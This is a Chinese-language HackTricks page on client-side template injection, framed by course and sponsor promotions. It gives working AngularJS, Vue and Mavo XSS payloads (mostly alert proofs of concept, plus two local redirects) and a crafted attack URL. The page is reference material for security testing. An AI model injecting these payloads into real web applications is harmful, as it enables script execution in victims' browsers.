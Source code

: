 # 客户端模板注入 (CSTI)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

通过 8kSec 学院深化您在 **移动安全** 方面的专业知识。通过我们的自学课程掌握 iOS 和 Android 安全并获得认证：

{% embed url="https://academy.8ksec.io/" %}

## 摘要

这就像 [**服务器端模板注入**](ssti-server-side-template-injection/)，但在 **客户端**。**SSTI** 允许您在远程服务器上 **执行代码**，而 **CSTI** 可能允许您在受害者的浏览器中 **执行任意 JavaScript** 代码。

**测试** 这种漏洞与 **SSTI** 的情况非常 **相似**，解释器期望 **一个模板** 并将其执行。例如，使用像 `{{ 7-7 }}` 的有效载荷，如果应用程序 **存在漏洞**，您将看到 `0`，如果没有，您将看到原始内容：`{{ 7-7 }}`

## AngularJS

AngularJS 是一个广泛使用的 JavaScript 框架，通过称为指令的属性与 HTML 交互，其中一个显著的指令是 **`ng-app`**。该指令允许 AngularJS 处理 HTML 内容，从而在双大括号内执行 JavaScript 表达式。

在用户输入动态插入到标记为 `ng-app` 的 HTML 主体的场景中，可以执行任意 JavaScript 代码。这可以通过利用 AngularJS 的语法在输入中实现。以下是演示如何执行 JavaScript 代码的示例：
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
您可以在 **AngularJS** 中找到一个非常 **基本的在线示例**，该漏洞位于 [http://jsfiddle.net/2zs2yv7o/](http://jsfiddle.net/2zs2yv7o/) 和 [**Burp Suite Academy**](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

{% hint style="danger" %}
[**Angular 1.6 移除了沙箱**](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html)，因此从这个版本开始，像 `{{constructor.constructor('alert(1)')()}}` 或 `<input ng-focus=$event.view.alert('XSS')>` 的有效载荷应该可以工作。
{% endhint %}

## VueJS

您可以在 [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh) 找到一个 **易受攻击的 Vue** 实现\
有效载荷: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor\(%27alert\(%22foo%22\)%27\)\(\)%7D%7D)

以及易受攻击示例的 **源代码** 在这里: [https://github.com/azu/vue-client-side-template-injection-example](https://github.com/azu/vue-client-side-template-injection-example)
```markup
<!-- Google Research - Vue.js-->
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
```
在 VUE 中关于 CSTI 的一篇非常好的文章可以在 [https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets) 找到

### **V3**
```
{{_openBlock.constructor('alert(1)')()}}
```
致谢: [Gareth Heyes, Lewis Ardern & PwnFunction](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V2**
```
{{constructor.constructor('alert(1)')()}}
```
Credit: [Mario Heiderich](https://twitter.com/cure53berlin)

**查看更多 VUE 有效载荷在** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)

## Mavo

有效载荷:
```
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]
```
**更多有效载荷请见** [**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)

## **暴力破解检测列表**

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt" %}


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

通过8kSec Academy深化您在**移动安全**方面的专业知识。通过我们的自学课程掌握iOS和Android安全并获得认证：

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**Telegram群组**](https://t.me/peass)，或在**Twitter**上**关注**我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}
